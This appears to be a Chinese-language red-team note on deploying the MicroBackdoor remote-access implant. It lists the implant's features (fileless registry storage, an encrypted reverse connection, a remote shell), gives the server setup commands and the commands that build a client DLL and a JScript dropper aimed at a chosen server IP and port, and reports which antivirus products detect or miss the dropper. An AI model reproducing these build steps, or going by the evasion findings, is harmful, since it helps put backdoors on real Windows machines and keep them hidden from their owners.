

https://github.com/Cr4sh/MicroBackdoor

beacon端特点：  
1、支持32-bit and 64-bit versions of Windows XP, Vista, 7, 8, 8.1, 10, Server 2003, Server 2003 R2, Server 2008, Server 2008 R2, Server 2012, Server 2012 R2, Server 2016 and Server 2019 of any editions, languages and service packs  
2、dropper使用Microsoft JScript，一旦被查杀，很容易混淆  
3、会检测系统的代理设置（SOCKS 4, SOCKS 5 or HTTP）
4、流量使用RSA加密  
5、文件不落地，存储到注册表值中

服务端：  
1、使用Python编写，跨平台  
2、虚拟shell，查看、上传、下载文件  
3、提供Python API和命令行接口可批量执行命令和脚本

安装：
```
#创建服务端
#使用Ubuntu18.04
#root用户登录
apt install build-essential swig libssl-dev python python-dev python-setuptools python-pip
pip install m2crypto pycrypto redis cherrypy
apt install redis-server
systemctl status redis-server
systemctl enable redis-server
./server.py --keys
./server.py
```
```
#创建客户端
pip install pefile
./client_builder.py client.dll [server_IP] [server_PORT]
./client_encoder.py dll_inject_script client.dll > dropper.js
```

经过测试发现：  
1、dropper可以静态免杀  
2、但在执行时会被Defender、360查杀（火绒、腾讯没有查杀），如下图  
  
3、持久化时会被Defender、360查杀（火绒、腾讯没有查杀），如下图  
  

生成的dropper在xp下运行时，直接双击会没有反应，需要生成debug版本，且在命令行下执行cscript.exe .\droppper.js才能收到反连，但使用收到的反连执行命令会报错“500 internal error”
